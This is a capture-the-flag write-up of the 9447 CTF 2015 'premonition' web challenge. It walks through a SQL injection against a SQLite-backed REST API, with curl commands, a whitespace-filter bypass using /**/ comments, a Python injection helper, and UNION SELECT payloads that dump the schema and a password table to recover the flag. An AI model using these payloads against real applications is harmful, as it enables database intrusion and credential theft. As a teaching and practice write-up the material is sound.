 # 9447 CTF 2015: premonition

**Category:** Web
**Points:** 140
**Solves:** 121
**Description:**

>  There's been some weird occurrences going on at our school. Teacher's answer questions as though they knew the answer in advance, test results being handed out before the test, and now a weird web form giving info about us. Can you find out what weird information is on it?
> 
> 
>  Find the page at <http://premonition-p8l05mpz.9447.plumbing:9447>


## Write-up

by [f0rki](https://github.com/f0rki)

We got an angular.js app that fetches data via a REST API. We identified the following
valid URLs. 
```
curl "http://premonition-p8l05mpz.9447.plumbing:9447/
    /firstname" -d "firstname=X"
    /lastname" -d "lastname=X"
    /class" -d "class=X"
    /score" -d "score=0&ineq=>"
    /date_birth" -d "date_birth=0&ineq=>"
```
They all give back json data. To shorten the following curl commands:
```
url="http://premonition-p8l05mpz.9447.plumbing:9447/score"
```

We sent the following request, which returns us no results
```
$ curl "$url" -d "score=0&ineq=<"
[]
```
But if we put an extra `'` in there... something strange happens
```
$ curl "$url" -d  "score=0'&ineq=<"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"], ["Ingeborg", "Dunham", 93.0, "5D"], ["Layne", "Agrawal", 94.0, "5K"], ["Kai", "Nathanson", 94.0, "5A"], ["Catharine", "Mcnally", 92.0, "5J"], ["Jeromy", "Duncanson", 92.0, "5D"], ["Lewis", "Oglesbee", 93.0, "5K"], ["Terri", "Colombo", 94.0, "5A"], ["Geraldo", "Penson", 93.0, "5J"], ["Rachael", "Ackermann", 92.0, "5D"], ["Winford", "Hendley", 93.0, "5K"], ["Nella", "Avila", 95.0, "5A"], ["Albertine", "Walmsley", 91.0, "5J"], ["Tyson", "Jefferies", 93.0, "5D"], ["Beulah", "Kaba", 95.0, "5K"], ["Kendra", "Fettig", 94.0, "5A"], ["Kathie", "Bieker", 94.0, "5J"], ["Sharon", "Martelli", 93.0, "5D"], ["Eusebio", "Champagne", 92.0, "5K"], ["Roni", "Neuberger", 93.0, "5A"], ["Kristopher", "Haber", 92.0, "5J"], ["Rubin", "Puryear", 94.0, "5D"], ["Edwina", "June", 95.0, "5K"], ["Imogene", "Burmeister", 91.0, "5A"], ["Jonell", "Dark", 95.0, "5J"], ["Awilda", "Oler", 95.0, "5D"], ["Delbert", "Heminger", 92.0, "5K"], ["Marina", "Lombardi", 93.0, "5A"], ["Katharyn", "Veselka", 92.0, "5J"]]
```
OK so maybe we have some kind of injection vulnerability in the database backend.
Next we tried the `ineq` parameter:
```
$ curl "$url" -d "score=0'&ineq=x"
{"user": "sqliteadmin@localhost", "error": "near \"x\": syntax error"}
```
Oh how nice it seems to be sqlite in the background. And apparently the inequality
operator is just inserted into the raw statement. The score parameter on the other
hand seems to be bound using `?`, like in prepared statements.
```
$ curl "$url" -d "score=95&ineq=<>--x"
```
Gives us an error but 
```
$ curl "$url" -d "score=95&ineq=<>?--x"
```
works just fine. We can also see that whitespace are filtered. So we cannot do something like
```
$ curl "$url" -d "score=100&ineq=>? or 1=1--x"
```
which will result in an error. But then I remebered a neat trick about how to bypass this common
restriction using C-style comments:
```
$ curl "$url" -d "score=100&ineq=>?/**/or/**/1=1--x"
[["Xavier", "Bohm", 95.0, "5A"], ["Mindi", "Cleaves", 94.0, "5J"],  ....
```
Yay we get a list of all students :D So we have a full blown SQL injection.
To make things easier I created a small python function for doing the injections:
```
def inject(x):
    x = x.replace(" ", "/**/")
    print("Injecting: '{}'".format(x))
    resp = requests.post("http://premonition-p8l05mpz.9447.plumbing:9447/score",
                         data={"score": 100, "ineq": x})
    return resp.content
```
Note that `score > 100` will not any results, so we won't get any results from the normal
part of the query.

First thing we managed to dump the schema of the sqlite database:
```
schema = inject(">? union select name, sql, 0, name from sqlite_master--x")
print("got schema:")
schema = json.loads(schema)
for x in schema:
    print("table", x[0], "created with:\n", x[1])
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/name,/**/sql,/**/0,/**/name/**/from/**/sqlite_master--x'
got schema:
table s3ekr17_passwords created with:
 CREATE TABLE s3ekr17_passwords(
	userid real,
	password text
)
table students created with:
 CREATE TABLE students(
	userid real,
	firstname text,
	lastname text,
	score real,
	teacher real,
	class text,
	date_birth date,
	date_death date
)
```

So the flag is probably in the `s3ekr17_passwords` table. We can just get the contents using
a union select. Turns out each of the passwords of the users was a part of the flag and the
userid was the position of the character. So we just appended an `order by` and joined the
flag by parsing the json output.
```
x = inject(">? union select password, password, userid, password from s3ekr17_passwords order by userid--x")
print(x)
data = json.loads(x)
flag = "".join(x[0] for x in data)
print("the flag is:")
print(flag)
```
We get the following output:
```
Injecting: '>?/**/union/**/select/**/password,/**/password,/**/userid,/**/password/**/from/**/s3ekr17_passwords/**/order/**/by/**/userid--x'
[["9", "9", 0.0, "9"], ["4", "4", 1.0, "4"], ["4", "4", 2.0, "4"], ["7", "7", 3.0, "7"], ["{", "{", 4.0, "{"], ["u", "u", 5.0, "u"], ["S", "S", 6.0, "S"], ["e", "e", 7.0, "e"], ["r", "r", 8.0, "r"], ["A", "A", 9.0, "A"], ["g", "g", 10.0, "g"], ["e", "e", 11.0, "e"], ["n", "n", 12.0, "n"], ["T", "T", 13.0, "T"], ["s", "s", 14.0, "s"], ["_", "_", 15.0, "_"], ["a", "a", 16.0, "a"], ["N", "N", 17.0, "N"], ["d", "d", 18.0, "d"], ["_", "_", 19.0, "_"], ["s", "s", 20.0, "s"], ["p", "p", 21.0, "p"], ["a", "a", 22.0, "a"], ["C", "C", 23.0, "C"], ["e", "e", 24.0, "e"], ["s", "s", 25.0, "s"], ["_", "_", 26.0, "_"], ["a", "a", 27.0, "a"], ["R", "R", 28.0, "R"], ["e", "e", 29.0, "e"], ["_", "_", 30.0, "_"], ["p", "p", 31.0, "p"], ["e", "e", 32.0, "e"], ["a", "a", 33.0, "a"], ["s", "s", 34.0, "s"], ["A", "A", 35.0, "A"], ["n", "n", 36.0, "n"], ["t", "t", 37.0, "t"], ["_", "_", 38.0, "_"], ["R", "R", 39.0, "R"], ["a", "a", 40.0, "a"], ["c", "c", 41.0, "c"], ["E", "E", 42.0, "E"], ["s", "s", 43.0, "s"], ["}", "}", 44.0, "}"]]

the flag is:
9447{uSerAgenTs_aNd_spaCes_aRe_peasAnt_RacEs}
````

## Other write-ups and resources

* <http://mumei.strangled.net/post/3> (spanish)
* <https://github.com/pwning/public-writeup/tree/master/9447ctf2015/web140-premonition>
* <https://asciinema.org/a/30878>
* <http://secgroup.github.io/2015/11/30/9447ctf2015-writeup-premonition/>
* <http://pastebin.com/NCSv5qpW>
* <https://pony7.fr/ctf:public:9447:premonition>
* [sophia.re](http://www.sophia.re/94472015_premonition_writeup.html)
* <https://losfuzzys.github.io/writeup/2015/12/07/9447ctf-premonition/>
